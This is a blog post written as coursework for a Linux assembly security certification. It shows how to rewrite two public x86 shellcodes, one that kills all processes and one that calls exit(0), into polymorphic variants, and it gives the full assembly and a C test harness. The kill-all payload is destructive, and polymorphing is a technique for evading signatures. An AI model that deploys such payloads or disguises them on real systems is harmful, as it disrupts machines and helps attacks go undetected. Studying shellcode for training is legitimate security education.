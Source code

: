 ```yaml
---
layout: post
title: " Linux/x86 - Code Polymorphism examples "
date: 2017-05-04 12:00:00
share: true
comments: true
tags: [Exploit Development, Shellcoding, SLAE, OSCE Prep]
---
```


_This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)._
_**Student ID:** SLAE-885_
_**Assignment number:** 6.2 and 6.3_
_**Github repo:** <https://github.com/abatchy17/SLAE>_  

---

_In assignment 6, the requirement is polymorphing 3+ shellcodes off shellstorm.org or exploit-db.com_, which basically means modifying the code so it doesn't look like the original yet has the same functionality. This post contains the remaining 2 parts for assignment 3._
  

## Linux/x86 - kill all processes

The following shellcode is written by Kris Katterjohn and can be found [here](http://shell-storm.org/shellcode/files/shellcode-212.php).  

```nasm
section .text  
  
global _start  
  
_start:  
  
    ; kill(-1, SIGKILL)  
  
    push byte 37  
    pop eax  
    push byte -1  
    pop ebx  
    push byte 9  
    pop ecx  
    int 0x80  
```

Very simple code, it sets `EAX` to 37 (syscall for `kill()`), sets `EBX` to -1 (to target all processes) and `ECX` to 9 (`SIGKILL`).  
  
Let's modify this code slightly:  

```nasm
section .text  
  
global _start  
  
_start:  
  
    ; kill(-1, SIGKILL)  
  
    xor ebx, ebx  
    dec ebx  
    push byte 37  
    pop eax  
    push byte 9  
    pop ecx  
    int 0x80  
```

See what I did there? Shellcode is of same size so we're good.  
  

## Linux/x86 - exit(0)

The following shellcode is written by gunslinger_ and can be found [here](http://shell-storm.org/shellcode/files/shellcode-623.php).  

```cpp
/*  
Name   : 8 bytes sys_exit(0) x86 linux shellcode  
Date   : may, 31 2010  
Author : gunslinger_  
Web    : devilzc0de.com  
blog   : gunslinger.devilzc0de.com  
tested on : linux debian  
*/  
  
char *bye=  
 "\x31\xc0"                    /* xor    %eax,%eax */  
 "\xb0\x01"                    /* mov    $0x1,%al */  
 "\x31\xdb"                    /* xor    %ebx,%ebx */  
 "\xcd\x80";                   /* int    $0x80 */  
  
int main(void)  
{  
  ((void (*)(void)) bye)();  
  return 0;  
}  
```    

  
What can we do about this code? Well, `mov al, 0x1` can be replaced with `inc eax`.  

```nasm
global _start  
_start:  
  
xor eax, eax  
inc eax  
xor ebx, ebx  
int 0x80  
```

Shellcode is now one byte smaller, sweet.  
  
\- Abatchy
